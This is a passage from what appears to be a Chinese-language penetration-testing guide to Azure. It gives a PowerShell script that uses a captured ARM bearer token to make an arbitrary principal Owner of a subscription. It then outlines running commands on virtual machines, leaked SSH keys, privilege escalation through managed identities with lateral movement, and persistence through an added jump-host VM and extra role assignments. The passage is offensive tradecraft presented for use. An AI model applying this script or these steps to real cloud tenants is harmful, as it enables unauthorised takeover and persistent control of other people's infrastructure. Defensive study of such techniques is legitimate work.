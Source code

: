 ```
$JSONbody = @"
{
    "properties": {
        "roleDefinitionId": "/subscriptions/$subID/providers/Microsoft.Authorization/roleDefinitions/$ownerGUID", "principalId": "CHANGE-ME-TO-AN-ID"
    }
}
"@

#---------Add User as a Subscription Owner---------#
$fullResponse = (Invoke-WebRequest -Body $JSONbody -Uri (-join("https://management.azure.com/subscriptions/",$subID,"/providers/Microsoft.Authorization/roleAssignments/",$ownerGUID,"?api-version=2015-07-01")) -Method PUT -ContentType "application/json" -Headers @{ Authorization ="Bearer $ArmToken"} -UseBasicParsing).content | ConvertFrom-Json

#---------List updated Subscription Owners---------#
$roleAssigns = (Invoke-WebRequest -Uri (-join('https://management.azure.com/subscriptions/',$subID,'/providers/Microsoft.Authorization/roleAssignments/?api-version=2015-07-01')) -Method GET -Headers @{ Authorization ="Bearer $ArmToken"} -UseBasicParsing).content | ConvertFrom-Json
$ownerList = ($roleAssigns.value.properties | where roleDefinitionId -like (-join('*',$ownerGUID,'*')) | select principalId) 
Write-Host "Updated 'Owner' Principal IDs ("($ownerList.Count)"):"
$ownerList | Out-Host
```
通过添加的用户即可以去管理订阅

### 2、服务器命令执行
在拿到控制台权限后，可以通过控制台下的运行命令功能来操作虚拟机
![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-13/1649831444-423172-image.png)
![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-13/1649831458-668414-image.png)

### 3、SSH密钥泄露
## 0x03、权限提升
一旦我们可以访问托管身份并确认该身份的权限，我们就可以开始提升我们的权限
身份是订阅所有者：将访客身份添加到订阅
身份是订阅贡献者：虚拟机横向移动，托管标识可以通过Azure Cli或API在其他虚拟机上执行命令

## 0x04、权限维持
### 1、新增服务器
在拿到控制台后，添加一台虚拟机作为后续渗透的跳板
### 2、添加角色分配
分配角色时，必须指定一个范围。 范围是访问权限适用于的资源集。 在 Azure 中，可在从广义到狭义的四个级别指定范围：管理组、订阅、资源组或资源。
在顶部的“搜索”框中，搜索要授予对其的访问权限的范围。 例如，搜索“管理组”、“订阅”、“资源组”或某个特定资源 。
![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-13/1649831475-860093-image.png)
![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-13/1649831481-173554-image.png)
